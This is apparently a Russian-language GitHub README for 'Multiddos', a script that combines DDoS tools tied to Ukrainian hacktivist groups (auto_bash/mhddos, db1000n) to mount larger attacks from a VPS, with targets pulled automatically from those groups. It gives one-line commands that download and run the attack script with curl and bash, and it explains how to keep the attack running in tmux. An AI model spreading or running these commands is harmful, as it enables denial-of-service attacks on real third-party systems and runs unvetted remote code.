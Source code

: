 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея состоит в том, чтобы автоматизировать сразу нескольких утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт запускает:
* [auto_bash](https://github.com/Aruiem234/auto_mhddos/tree/main/bash) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* ~~[UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат)~~ (Убрали, не понятна эффективность, а CPU у других утилит забирает очень активно)

Все эти утилиты автоматизированы, то есть автоматически подтягивают новые цели от своих разработчиков.

## Команда для запуска в Linux

```
curl -s https://raw.githubusercontent.com/KarboDuck/multiddos/main/multiddos.sh -o multiddos.sh && bash multiddos.sh
```

Скрипт запускает tmux сессию. Если ssh сессия оборвется, то программы не закроются, а будут дальше работать в фоне. После повторного подключения по ssh окно Tmux можно восстановить.

В окне запускается gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использование RAM).
И несколько утилит, перечисленных ранее. 

<details>
  <summary>Версия с матрицей, по просьбам трудящихся</summary>
  
Отличается только наличием cmatrix.
```
curl -s https://raw.githubusercontent.com/KarboDuck/multiddos/main/multiddos_matrix.sh -o multiddos_m.sh && bash multiddos_m.sh
```
![cmatrix](https://user-images.githubusercontent.com/53382906/162016355-5062d73e-16a1-4311-8090-14e24b696304.gif)
  
</details>

## Управление

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет снова подключиться.

`Нажмите Ctrl +b и отпустите` `Нажмите d`
* **Закрыть сессию Tmux**.

Сначала выйдите из Tmux: `Нажмите Ctrl +b и отпустите` `Нажмите d`

Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**.

Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach)

Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`
